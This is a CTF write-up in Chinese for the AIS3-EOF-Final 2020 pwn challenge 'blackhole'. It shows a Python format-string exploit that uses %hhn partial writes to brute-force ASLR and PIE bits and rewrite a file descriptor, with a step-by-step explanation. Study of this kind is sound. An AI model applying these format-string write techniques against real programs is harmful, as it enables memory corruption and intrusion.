 AIS3-EOF-Final 2020 - [pwn] blackhole
===
- [Description](#Description)
- [Exploit](#Exploit)
- [Reference](#Reference)

# Description
題目跟 whitehole 只差在 fd 為 2, 所以無法看到輸出

# Exploit
```python
stack = random.randrange(0x10, 0xf0, 0x10)
ptrfd = random.randrange(0x10, 0xf0, 0x10)

send('%{}c%5$hhn'.format(stack+8).encode(), maxTime * (stack+8) / 255 + 0.2) # guess stack LSB: 0x?8
send(b'%16c%7$hhn\0', maxTime * 16 / 255 + 0.2) # rewrite ptr to fd: 0x?010
send('%{}c%5$hhn'.format(stack+8+1).encode(), maxTime * (stack+8+1) / 255 + 0.2)
send('%{}c%7$hhn\0'.format(ptrfd).encode(), maxTime * ptrfd / 255 + 0.2)
send(b'c%8$hhn\0')    # rewrite fd: 1
```
主要是
- 利用 `rsp+0` 將 `rsp+0x10` 的內容改為 `rsp+0x18` 的位址
    - 因為 `rsp+0x10` 的內容原本就存著 stack 段的 address
    - 所以將其改為 `rsp+0x18` 的位址只需要一個 byte
    - 又因這兩 byte 中只有其中 4 bits 受到 ASLR 影響
    - 故猜中 `rsp+0x18` 位址的機率是 $\frac{1}{2^4}$
- 利用 `rsp+0x10` 將 `rsp+0x18`的內容改為 fd 的位址
    - 因為 `rsp+0x18` 的內容原本就存著 text 段的 address
    - 所以將其改為 fd 的位址只需要改兩個 byte
    - 又因這兩 byte 中只有其中 4 bits 受到 PIE 影響
    - 故猜中 fd 位址的機率是 $\frac{1}{2^4}$
- 利用 `rsp+0x18` 將 fd 的內容改為 1
- 至此, 就能得到輸出

若有輸出, 則表示前面 stack, fd 的位址都猜中了, 機率為 $\frac{1}{2^8}$

有輸出後, 做法就跟 whitehole 一樣了

# Reference

###### tags: `CTF`